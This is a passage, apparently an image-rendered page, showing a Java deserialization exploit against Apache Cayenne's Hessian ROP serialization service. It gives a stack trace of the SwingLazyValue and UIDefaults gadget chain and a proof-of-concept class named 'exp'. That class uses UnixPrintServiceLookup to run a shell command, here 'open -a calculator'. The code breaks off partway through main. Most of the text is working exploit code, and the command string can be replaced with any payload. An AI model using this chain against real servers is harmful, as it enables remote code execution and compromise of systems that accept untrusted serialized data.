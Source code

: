 ```plain
invoke:275, MethodUtil (sun.reflect.misc)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
createValue:73, SwingLazyValue (sun.swing)
getFromHashtable:216, UIDefaults (javax.swing)
get:161, UIDefaults (javax.swing)
equals:813, Hashtable (java.util)
putVal:634, HashMap (java.util)
put:611, HashMap (java.util)
readMap:114, MapDeserializer (com.caucho.hessian.io)
readMap:577, SerializerFactory (com.caucho.hessian.io)
readObject:1160, HessianInput (com.caucho.hessian.io)
deserialize:74, HessianROPSerializationService (org.apache.cayenne.rop)
main:90, exp (org.apache.cayenne.tutorial.persistent)
```

```plain
package org.apache.cayenne.tutorial.persistent;

import com.caucho.hessian.io.*;
import com.sun.org.apache.xml.internal.utils.FastStringBuffer;
import org.apache.cayenne.remote.ClientMessage;
import org.apache.cayenne.rop.HessianROPSerializationService;
import sun.misc.Unsafe;
import sun.print.UnixPrintServiceLookup;
import sun.reflect.ReflectionFactory;
import sun.reflect.misc.MethodUtil;
import sun.swing.SwingLazyValue;

import javax.activation.MimeTypeParameterList;
import javax.swing.*;
import java.io.*;
import java.lang.reflect.*;
import java.net.HttpURLConnection;
import java.net.URL;
import java.util.HashMap;
import java.util.TreeMap;
import java.util.TreeSet;

public class exp {
     static SerializerFactory serializerFactory = new SerializerFactory();
    public static void main(String[] args) throws Exception{
        serializerFactory.setAllowNonSerializable(true);
        UnixPrintServiceLookup lookup = new UnixPrintServiceLookup();
        String cmd = "open -a calculator";
        setFieldValue(lookup, "osname", "xx");
        setFieldValue(lookup,"lpcFirstCom",new String[]{cmd,cmd,cmd});
        setFieldValue(lookup, "cmdIndex", 0);
        Method getPrintServices = lookup.getClass().getMethod("getDefaultPrintService");
        Method invoke = MethodUtil.class.getMethod("invoke", Method.class, Object.class, Object[].class);
        Object[] ags = new Object[]{invoke, new Object(), new Object[]{ getPrintServices,lookup,null}};
        SwingLazyValue swingLazyValue = new SwingLazyValue("sun.reflect.misc.MethodUtil","invoke",ags);

        UIDefaults u1 = new UIDefaults();
        UIDefaults u2 = new UIDefaults();


        u2.put("2",swingLazyValue);
        u1.put("2",swingLazyValue);
```